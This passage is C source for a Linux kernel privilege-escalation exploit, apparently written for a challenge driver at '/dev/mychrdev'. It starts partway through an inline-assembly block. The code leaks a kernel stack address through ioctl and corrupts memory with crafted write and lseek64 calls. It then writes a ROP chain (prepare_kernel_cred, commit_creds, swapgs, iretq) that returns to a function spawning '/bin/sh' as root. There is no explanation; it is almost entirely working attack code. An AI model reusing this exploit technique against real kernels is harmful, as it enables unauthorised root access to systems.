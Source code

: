 ```c
        "movq %%cs, %0;"
        "movq %%ss, %1;"
        "movq %%rsp, %2;"
        "pushfq;"
        "popq %3;"
        : "=r" (user_cs), "=r" (user_ss), "=r" (user_sp), "=r" (user_rflags) : : "memory");
}

void shell()
{
	system("/bin/sh");
	exit(0);
}

size_t data[0x10000];
size_t mydata;
size_t stack;

int main()
{
	save_stat();
	signal(SIGSEGV, shell);
	signal(SIGTRAP, shell);

	int fd = open("/dev/mychrdev",O_WRONLY);
	ioctl(fd,0x1111,data);
	mydata = data[4];
	stack = (data[2] | 0xFFFFC90000000000) - 0x10;
	printf("[+] mydata at: %p\n",mydata);
	printf("[+] Stack at: %p\n",stack);

	write(fd,data,0xF000);
	lseek64(fd,0x100,0);

	write(fd,data,0x10000);
	lseek64(fd,0x10001,0);

	data[0] = stack - mydata;
	data[1] = stack - mydata + 0x10000;
	write(fd,(char*)data+1,0x10000);

	size_t off = stack&0xFF;
	lseek64(fd,off,0);

	int i = 0;
	data[i++] = pop_rdi_ret;
	data[i++] = 0;
	data[i++] = prepare_kernel_cred;
	data[i++] = xchg_rax_rdi;
	data[i++] = commit_creds;
	data[i++] = swapgs_popfq_ret;	// swapgs; popfq; ret
	data[i++] = 0;								// rflags
	data[i++] = 0;
	data[i++] = iretq;						// iretq; ret;
	data[i++] = (size_t)shell;

	data[i++] = user_cs;					// cs
	data[i++] = user_rflags;			// rflags
	data[i++] = user_sp;					// rsp
	data[i++] = user_ss;					// ss
	write(fd,data,0x100);
	return 0;
}
```